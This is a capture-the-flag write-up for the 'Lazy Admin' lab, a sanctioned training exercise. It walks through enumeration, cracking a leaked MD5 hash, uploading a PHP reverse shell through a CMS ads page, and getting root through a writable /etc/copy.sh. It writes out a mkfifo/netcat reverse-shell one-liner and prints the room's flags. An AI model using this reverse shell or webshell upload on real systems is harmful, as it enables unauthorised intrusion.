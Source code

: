 # Task 1 - Lazy Admin

## Enumeration

For the enumeration I ran an nmap scan and a gobuster scan just in case port 80 is open

sudo nmap -sV -sC -T5 -p- 10.10.244.104 -oN \~/Github/LazyAdminCTF/nmapscan.md

![Nmap Scan](nmapscan.md)

When the nmap scan finishes we can see that we have 2 ports open 22 and 80 for ssh and http

gobuster dir -u http://10.10.244.104 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 60 -q

On our gobuster scan we found one directory that was interesting, the /content directory

![Gobuster](gobuster.png)

When we navigate to the content directory we can see the webiste is a management system called CMS Sweetrice.

Since we found this directory I am going to run another gobuster scan on the /content directory so we can see if there are any other useful webpages.

Some of the directories that we found were /inc and /as, when navigating to http://IP/content/inc we see an index of different files. One of the folders that I found interesting was the mysql_backup inside this folder we can see there is a .sql file.

We can download the SQL file and search for a username or password in the file, searching for admin we get the username manager and a hashed password. We can use a tool called hash-identifier to determine what type of hash this is.

admin: manager
password: 42f749ade7f9e195bf475f37a44cafcb

![MD5](md5.png)

We can see that the tool is not too sure what the hash is but there are many different versions of md5 so we can use an online tool to try to crack this as an md5 hash.

Once that is cracked we get the password

![Cracked](cracked.png)

Now we have a password and a possible username being manager that was also found in the SQL file. Searching around the /inc directory I found a latest.txt file that just had "1.5.1" so I will assume that is the version.

## Exploitation

Username: manager
Password: Password123

Going back to our first gobuster scan we can see there is an /as directory. That was one of the available direcotories which is a login page. Now we are able to login using the username and password we found in the .sql file.

Clicking around this site I eventually found the Ads tab that may allow us to imput code into the machine.

![Ads](ads.png)

I will go and grab the reverse_php file from pentestmonkey on Github that we have used in past CTFs. I can paste the contents of this file into the text box.

Now that the php file has been uploaded we can start a netcat listener on the port we specified in the file, then we can go back to the /inc directory and see if we can open the php file.

![Folder](adsfolder.png)

Inside the ads folder we have the reverse_php file we had uploaded and when we oppen that file we get a shell on our listener.

![shell](shell.png)

### What is the user flag?

we can run python -c 'import pty; pty.spawn("/bin/bash")' to gain a stronger shell.

now moving around in the file system in the /home directory we can see there is a user named itguy and in his directory there is a user.txt that we can cat out.

cat user.txt: THM{63e5bce9271952aad1113b6f1ac28a07}

### What is the root flag?

Now to find the root flag, using sudo -l we can see what our user is able to run as sudo. We can see there is a pearl script in the /home/itguy directory that we may be able to use.

![sudo](sudo-l.png)

using sudo -V we can see that the version of sudo on this machine is 1.8.16 so we may be able to use a security bypass exploit that we have used in past machines. The security bypass exploit did not work so I will take a look at the perl script we have

looking at the perl script it is running another script in the /etc directory

![perl](perl.png)

We are able to write to the /etc/copy.sh, I copied what was in the copy.sh file since it would already spawn a reverse shell then I modified it to include my IP.

echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.13.16.145 4441 >/tmp/f" > /etc/copy.sh

now I tried to run the file after starting a nc listener but every time I was getting the shell it was still in the user permissions. I messed around with sudo and perl to see if we can run the backup.pl script.

Finally looking back to the sudo -l command we can see that we are able to run the bakcup.pl script with sudo when we use the full path so I ran sudo perl /home/itguy/backup.pl and this opened a root shell on my listener.

![root](root.png)

From here we can go to /root and ls. Now we see the root.txt file and the root flag is: THM{6637f41d0177b6f37cb20d775124699f}

For this room we were able to upload a reverse shell and use that initial foothold to see what files we were able to run as sudo. Then we used those permissions to spawn a root shell.